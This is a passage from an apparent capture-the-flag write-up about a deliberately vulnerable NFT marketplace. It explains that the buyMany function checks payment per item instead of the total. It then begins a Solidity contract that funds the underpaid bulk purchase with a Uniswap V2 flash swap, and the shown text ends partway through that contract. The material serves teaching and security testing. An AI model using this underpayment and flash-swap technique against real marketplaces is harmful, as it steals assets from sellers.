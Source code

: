 - `function buyMany(uint256[] calldata tokenIds) external payable nonReentrant`

This is the function called by the buyer that allows us to buy in bulk tokens listed in the marketplace. For each token in `tokenIds` array, the function will call the private function `_buyOne`. The contract uses the `nonReentrant` modifier, so it’s not affected by reentrancy attacks that could be caused by the external callback `onERC721Received` called on the receiving contract `token.safeTransferFrom`.

Do you spot any problem in this function? **There’s a huge red flag**!

The function allows you to buy NFTs in bulk, checking only if `msg.value` is equal or greater of each item’s price, but not the total price that the buyer needs to pay to buy all the NFTs.

Let’s make an example: you want to buy `tokenID1`, `tokenID2` and `tokenID3`. `tokenID1` costs `1 ETH`, tokenID2 costs `5 ETH` and `tokenID3` costs `10 ETH`. Normally, the user should call `buyMany{value: 16 ether}([tokenID1, tokenID2 and tokenID3])` but without that check we just have to call the function just paying the cost of the most expensive item → `buyMany{value: 10 ether}([tokenID1, tokenID2 and tokenID3])`

## Prepare the attack

Ok, we have spotted the exploit. Each NFT in the Marketplace costs 15 ETH, so we will “just” pay 15 ETH to get all 6 NFT instead of paying 90. What a steal!

But wait, we only have 0.5 ETH in our wallet, and we need to pay for the gas. How can we get at least 15 ETH just to make the buy, transfer them to the Buyer and get our bounty back?

In the description of the challenge it’s not explicitly said, but if you look at the tests there is an Uniswap V2 exchange for WETH/DVT.

UniswapV2 exchanges offer a mechanism called `Flash Swaps`. You can read more about them on the Flash Swaps [Uniswap official documentation](https://docs.uniswap.org/protocol/V2/guides/smart-contract-integration/using-flash-swaps). Basically, it allows us to take a flashloan that must be repaid with a 0.3% fee on the amount we got loaned for the transaction.

What do we need to do to pass the challenge? Let’s see the code and each step:

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity 0.8.10;

// ... imports

contract FlashSwapV2 is IUniswapV2Callee, ERC721Holder {

    IUniswapV2Pair pair;
    FreeRiderNFTMarketplace marketplace;
    address owner;
    uint8 numberOfNFT;
    uint256 nftPrice;

    constructor(IUniswapV2Pair _pair, FreeRiderNFTMarketplace _marketplace, uint8 _numberOfNFT, uint256 _nftPrice) {
        owner = msg.sender;
        pair = _pair;
        marketplace = _marketplace;
        numberOfNFT = _numberOfNFT;
        nftPrice = _nftPrice;
    }

    function exploit() external {
        // need to pass some data to trigger uniswapV2Call
        // borrow 15 ether of WETH
        bytes memory data = abi.encode(pair.token0(), nftPrice);

        pair.swap(nftPrice, 0, address(this), data);
    }

```